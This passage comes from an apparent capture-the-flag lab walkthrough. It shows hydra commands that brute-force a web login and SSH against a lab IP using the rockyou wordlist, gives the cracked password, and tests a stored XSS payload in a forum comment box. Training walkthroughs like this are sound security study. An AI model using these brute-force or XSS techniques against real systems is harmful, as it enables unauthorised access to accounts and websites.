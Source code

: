 catch request from devtool

![image](https://user-images.githubusercontent.com/90561566/210311677-26420160-5203-49f1-8b8a-5e1ff5b33648.png)

bruteforce with hydra

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.89.63 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```

![image](https://user-images.githubusercontent.com/90561566/210312100-aa796a1c-6388-4c51-b60d-11e10353f97a.png)

after login, you found your flag

![image](https://user-images.githubusercontent.com/90561566/210312147-d0a25810-0e99-4ed8-a460-f0c3d54bef5e.png)

bruteforce ssh

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.89.63 -V -f
```

![image](https://user-images.githubusercontent.com/90561566/210312268-019b7ec0-7740-4465-8f70-0e6b6c661678.png)

```
ssh molly@10.10.89.63
butterfly
```

![image](https://user-images.githubusercontent.com/90561566/210312356-0d2fe8b7-dcff-4654-91de-6a51fdbc3f99.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/210312442-50efefa1-1081-4439-8169-7d457bf75c5d.png)

## Day 18: ELF JS

view the webpage at port 3000

![image](https://user-images.githubusercontent.com/90561566/210314235-4234366a-4f13-4b17-92a3-e1fea17f4cbd.png)

register one and login, we found a forum and see can comment here

![image](https://user-images.githubusercontent.com/90561566/210314327-e0d8f182-fcf7-4dca-a85d-fa1ebfdac86e.png)

test XSS

```
<script>alert(1)</script>
```

![image](https://user-images.githubusercontent.com/90561566/210314495-b20bcbef-9309-4562-a0c4-c6400f5cf838.png)

Cool, we can exploit an XSS vulnerability in the comment box to inject malicious Javascript into the database!
